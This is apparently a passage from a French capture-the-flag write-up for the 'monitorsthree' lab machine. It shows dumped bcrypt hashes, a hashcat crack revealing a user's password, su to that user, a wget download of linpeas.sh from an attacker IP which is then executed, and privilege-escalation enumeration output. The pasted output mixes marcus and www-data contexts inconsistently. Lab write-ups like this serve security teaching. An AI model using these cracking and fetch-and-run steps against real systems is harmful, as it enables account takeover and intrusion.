 ```bash
MariaDB [(none)]> \u cacti
Database changed

admin: $2y$10$tjPSsSP6UovL3OTNeam4Oe24TSRuSRRApmqf5vPinSer3mDuyG90G
marcus: $2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK
guest: $2y$10$SO8woUvjSFMr1CDo8O3cz.S6uJoqLaTe6/mvIcUuXzKsATo77nLHu

```

et donc je décide de péter le mdp avec hashcat:

```bash
➜  ~ hashcat -m 3200 -a 0 '$2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK' HDD/Documents/rockyou.txt

$2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK:12345678910
```

Et pouf il pète le mdp de marcus :D

On s'y connecte:

```bash
www-data@monitorsthree:/tmp$ su marcus  
Password:
marcus@monitorsthree:/tmp$ id  
uid=1000(marcus) gid=1000(marcus) groups=1000(marcus)
```

Je lance un linpeas pour continuer la privesc:

```bash
marcus@monitorsthree:/tmp$ wget http://10.10.16.4:9009/linpeas.sh
marcus@monitorsthree:/tmp$ chmod +x linpeas.sh
marcus@monitorsthree:/tmp$ ./linpeas.sh > enumfile
marcus@monitorsthree:/tmp$ cat enumfile

Hostname: monitorsthree  
User & Groups: uid=33(www-data) gid=33(www-data) groups=33(www-data)  
OS: Linux version 5.15.0-118-generic

127.0.1.1 monitorsthree # /etc/hosts

www-data@monitorsthree:/tmp$ netstat -pentula
tcp        0      0 0.0.0.0:8084            0.0.0.0:*               LISTEN      1180/mono

-rw-r--r-- 1 root root 11686 Jul 11  2023 /etc/mono/2.0/web.config  
-rw-r--r-- 1 root root 18848 Jul 11  2023 /etc/mono/4.0/web.config  
-rw-r--r-- 1 root root 18857 Jul 11  2023 /etc/mono/4.5/web.config  
-rw-r--r-- 1 root root 1327 Dec 28  2020 /usr/share/monodoc/web/web.config

═════════════════════╣ Files with Interesting Permissions╠══════════════════════ 
                     ╚═══════════════════════════════════╝  
╔══════════╣ SUID - Check easy privesc, exploits and write perms  
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid  
-rwsr-xr-x 1 root root 331K Jun 26 13:11 /usr/lib/openssh/ssh-keysign  
-rwsr-xr-- 1 root messagebus 35K Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper  
-rwsr-xr-x 1 root root 71K Feb  6  2024 /usr/bin/gpasswd  
-rwsr-xr-x 1 root root 35K Apr  9 15:32 /usr/bin/umount  --->  BSD/Linux(08-1996)  
-rwsr-xr-x 1 root root 59K Feb  6  2024 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)  
-rwsr-xr-x 1 root root 35K Mar 23  2022 /usr/bin/fusermount3  
-rwsr-xr-x 1 root root 227K Apr  3  2023 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable  
-rwsr-xr-x 1 root root 72K Feb  6  2024 /usr/bin/chfn  --->  SuSE_9.3/10  
-rwsr-xr-x 1 root root 47K Apr  9 15:32 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8  
```